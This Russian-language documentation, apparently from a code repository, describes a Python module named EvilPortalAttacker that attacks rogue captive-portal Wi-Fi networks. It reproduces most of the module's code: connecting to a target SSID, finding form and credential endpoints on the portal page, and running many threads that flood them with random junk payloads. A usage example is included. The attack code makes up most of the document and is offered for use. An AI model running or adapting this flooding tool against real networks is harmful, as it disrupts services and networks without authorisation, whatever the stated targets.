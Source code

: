 # EvilPortalAttacker

## Описание

EvilPortalAttacker - это модуль, реализующий методы атак на Evil Portal сети. Он обеспечивает:
- Различные методы атак
- Управление потоками
- Обработку результатов
- Определение успешности атак

## Основные функции

### Инициализация
```python
def __init__(self):
    self.network_manager = NetworkManager()
    self.logger = logging.getLogger(__name__)
    self.attack_successful = False
```

### Основная функция атаки
```python
def attack_network(self, ssid: str, url: str) -> bool:
    self.attack_successful = False
    
    if not self.network_manager.connect_to_network(ssid):
        self.logger.error(f"Не удалось подключиться к сети {ssid}")
        return False

    try:
        # Атака через SSID метод
        if self._attack_ssid_method(ssid, url):
            return True

        # Атака через CREDS метод
        if self._attack_creds_method(ssid, url):
            return True

        # Атака через FORM метод
        if self._attack_form_method(ssid, url):
            return True

        # Атака через FETCH метод
        if self._attack_fetch_method(ssid, url):
            return True

        # Атака через XMLHttpRequest метод
        if self._attack_xmlhttp_method(ssid, url):
            return True

    except Exception as e:
        self.logger.error(f"Ошибка при атаке сети {ssid}: {str(e)}")
    
    return self.attack_successful
```

### Методы атак

#### SSID метод
```python
def _attack_ssid_method(self, ssid: str, url: str) -> bool:
    try:
        response = self.network_manager.send_request(url + 'ssid')
        action = self._extract_action(response.text)
        if not action:
            return False

        self.logger.info(f'Найдена ссылка: {action}')
        self.logger.info(f'Атакуем {ssid} через SSID метод...')
        
        threads = self._create_attack_threads(ssid, action)
        return self._execute_threads(threads)
    except Exception as e:
        self.logger.error(f"Ошибка в SSID методе: {str(e)}")
        return False
```

#### CREDS метод
```python
def _attack_creds_method(self, ssid: str, url: str) -> bool:
    try:
        response = self.network_manager.send_request(url)
        methods = ['/post', '/get', '/postcreds', '/creds', '/add']
        
        for method in methods:
            if method in response.text:
                self.logger.info(f'Найдена ссылка: {method}')
                self.logger.info(f'Атакуем {ssid} через CREDS метод...')
                
                payload = self._generate_creds_payload()
                threads = self._create_creds_threads(ssid, url, method, payload)
                if self._execute_threads(threads):
                    return True
    except Exception as e:
        self.logger.error(f"Ошибка в CREDS методе: {str(e)}")
    return False
```

### Управление потоками

#### Создание потоков
```python
def _create_attack_threads(self, ssid: str, action: str) -> List[threading.Thread]:
    threads = []
    for _ in range(THREAD_COUNT):
        thread = threading.Thread(target=self._attack_thread, args=(ssid, action))
        threads.append(thread)
    return threads
```

#### Выполнение потоков
```python
def _execute_threads(self, threads: List[threading.Thread]) -> bool:
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()
    return self.attack_successful
```

### Генерация payload
```python
def _generate_creds_payload(self) -> str:
    payload = '?email=24wpoerufjklasdhrkj53hrekjdfhnk23hdef'
    for _ in range(100):
        key = self.network_manager.generate_random_string()
        value = self.network_manager.generate_random_string(PAYLOAD_CHUNK_SIZE)
        payload += f'&{key}={value}'
    return payload
```

## Использование

```python
# Создание экземпляра
attacker = EvilPortalAttacker()

# Атака на сеть
success = attacker.attack_network('target_ssid', 'http://target.com/')
if success:
    print('Атака успешна')
else:
    print('Атака не удалась')
```

## Обработка ошибок

Модуль обрабатывает следующие типы ошибок:
- Ошибки подключения
- Ошибки HTTP запросов
- Ошибки потоков
- Ошибки генерации payload

Все ошибки логируются и обрабатываются на уровне модуля. 